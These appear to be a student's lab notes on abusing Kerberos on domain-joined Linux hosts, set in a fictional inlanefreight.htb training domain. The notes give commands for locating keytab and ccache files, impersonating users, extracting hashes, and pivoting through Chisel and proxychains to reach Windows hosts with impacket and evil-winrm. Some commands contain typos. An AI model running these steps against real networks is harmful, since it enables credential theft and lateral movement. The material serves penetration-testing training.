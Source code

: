 # Kerberos on Linux
- Linux stores Kerberos tickets as ccache files in /tmp. 
- By default, the location of the Kerberos ticket is stored in the environmnet variable KRB5CCNAME.
- Keytab file: contains pairs of Kerberos principals and encyrpted keys.

# Scenario
- LINUX01 is connected to Domain Controller, can only be reached by MS01
- Two ways to connect to LINUX01:
    - RDP to MS01, then from MS01 SSH to LINUX01
    - Use portforwarding
    ```shell
    ssh $USER@$DOMAIN@$IP -p 2222
    
    # By connecting to port TCP/2222 on MS01, we will gain access to port TCP/22 on LINUX01
    ```
    
# Identify Linux and Active Directory Integration
### Check if Linux is Domain joined
  - realm
    ```shell
      realm list
    ```
  - PS
    ```shell
      ps -ef | grep -i "windbind\|sssd"
    ```
# Finding Kerberos Tickets in Linux
### Finding Keytab files
- Using Find
```shell
  find / -name *keytab* -ls 2>/dev/null
```
### Identify Keytab Files in Cronjobs
```shell
  crontab -l
```
- Look for **kinit**, which allows interation with Kerberos, and its function si to request the users's TGT and store this ticket in the cache. 
### Finding ccache Files
- Review Environemnet Variables for ccache files
```shell
  env | grep -i krb5
```
### Search for ccache files in /tmp
```shell
  ls -la /tmp
```
# Abusing KeyTab files
### Listing Keytab file information
```shell
  klsit -k -t
```
1. Impersonating a user wiht a keytab
```shell
  klist
  kinit $USER@DOMAIN -k -t /opt/specialfiles/$USER.keytab
  klist
```
- Connect to SMB as the user
```shell
  smblcient //$DOMAIN/$USER -k -c ls
```
- NOTE: to keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

2. Keytab Extract
- Use ![KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract valuable information from 502-type .keytab files.
```shell
python3 /opt/keytabextract.py /opt/specialfiles/$USER.keytab
```
- Log in as the user
```shell
  su - $USER@DOMAIN
  klist
```
- Obtain more hashes: we can continue investigate the keytab file found in the cronjob, repeat the process and gain more hashes.

# Abuse Keytab ccache
- Escalte privilege (when possible) to read the ccache files
```shell
  ls -la /tmp
```
- Check the group of the users:
```shell
id $USER@$DOMAIN
```
- To use ccache file, we need to assign the file to the KRB5CCNAME variable
```shell
  cp /tmp/$CCACHEFILE .
  export KRB5CCNAME=/root/$CCACHEFILE
  klist
```

-------------------------------
# Using Linux Attack Tools with Kerberos
-------------------------------
- When using tools from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. When attacking from a machine that is not a member of domain, we need to use [Chisel](https://github.com/jpillora/chisel) [proxychains](https://github.com/haad/proxychains) and edit the host file.
```shell
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
- Configure Proxychains file to use socks5 and port 1080
```shell
    cat /etc/proxychains.conf
    socks5 127.0.0.1 1080
```
- Download Chisel to PWNBOX
```shell
    wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    gzip -d chisel_1.7.7_linux_amd64.gz
    mv chisel_* chisel && chmod +x ./chisel
    sudo ./chisel server --reverse 
```
- RDP to MS01 machine
- Execute chisel from MS01 machine
```shell
    chisel.exe client $PWNBOX_IP:8080 R:socks
```
- Transfer ccache file from LINUX-1 and create environment varialbe KRB5CCNAME with the value corresponding to the path of the ccachfile
```shell
    export KRB5CCNAME=/home/htb-student/$CCACHE_FILE
```

## Impacket
- Use Impacket with proxychains and Kerberos Authentication
```shell
    # PWNBOX
    proxychains impacket-wmiexec ms01 -k
    
    # if prompted for a password, use -no-pass option
 ```
 ## Evil-winrm
 - Must install the package
 ```shell
    # PWNBOX
    sudo apt-get install krb5-user -y
 ```
 - Configure the Keberos file for the Domain
 ```shell
     cat /etc/krb5.conf
     default_realm = INLANEFREIGHT.HTB
     
     [realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
 ```
 - Using Evil-WinRM with Kerberos
 ```shell
    proxychains evil-winrm -i dc01 -r inlanefreight.htb
 ```

